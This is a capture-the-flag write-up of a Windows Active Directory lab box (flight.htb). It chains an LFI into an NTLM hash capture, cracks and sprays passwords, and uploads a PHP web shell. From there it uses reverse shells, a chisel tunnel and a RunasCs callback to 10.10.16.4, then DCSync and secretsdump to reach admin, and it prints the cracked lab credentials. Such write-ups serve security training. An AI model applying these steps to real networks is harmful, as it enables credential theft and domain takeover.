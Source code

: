 Started with a nmap scan
```
53 DNS
80 Apache 2.4.52
88 Kerberos
135
139
389
445
693
636 
3268 Ldap
3269
```
Domain `flight.htb` Hostname `G0` 
The SMB and LDAP both have guest account disabled and cant auth with null session's 
Gonna look at the website now the main site is just a static site none of the links go anywhere doing a subdomain enumeration and we found one subdomain `school.flight.htb` looking around at the site we do have `LFI` at `http://school.flight.htb/index.php?view=C:/Windows/win.ini` we can use this LFI to try and connect to are SMB share with responder and get a hit `http://school.flight.htb/index.php?view=//10.10.16.4/shares` and we got a hit for `svc_apache` now we need to try and crack this hash and it cracked `svc_apache:S@Ss!K@*t13` so we have `READ` access to three shares `Shared,Users,Web` nothing interesting I can tell in there now to get a list of usernames 
```
administrator
Guest
krbtgt
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```
Now time to get bloodhound data `svc_apache` has nothing in the data but if we spray this password aginst all the users we get another account `S.Moon:S@Ss!K@*t13` bloodhound also shows nothing for this user but we do have `WRITE` access to the `Shared` SMB share we cant upload a `exe,xsls` we can upload a `odt` file and it did not get ran I used a program called `ntlm_theft` from github and it generates a bunch of file I put the `desktop.ini` and a `xml` file and ran responder and we got another hash for `c.bum` so now we need to try and crack it and it cracked `c.bum:Tikkycoll_431012284` and this user has access to the `webdev` group and checking out the share we have `write` access to `web` and we can upload a php shell onto the host that we can exacute commands and then use `hoaxshell` to make a powershell payload and now we have a reverse shell as `svc_apache` agin doing some enumeration there is a port running on `8000` so we need to get runasC.exe onto the host and since we have creds to the `c.bum` user we can become him `.\r.exe c.bum Tikkycoll_431012284 -r 10.10.16.4:4444 cmd` now we have a shell as `c.bum` now we need to put chisel onto the host we run `chisel server --reverse 8000` and onto the host `.\chisel.exe client 10.10.16.4:8000 R:8001:localhost:8000` now we can view the website not much with the site but we do have write access to the web root we can put a shell into it and then access it from the site `C:\inetpub\development\` now with this shell we can get another reverse shell as `defualtapppool` now we need to get `rubeus.exe` onto the machine and get a ticket and now we can dcsync now we have ticket and we can run secretsdump and now we have the hashes for the admin account and we can use psexec to auth and now we are the admin account  
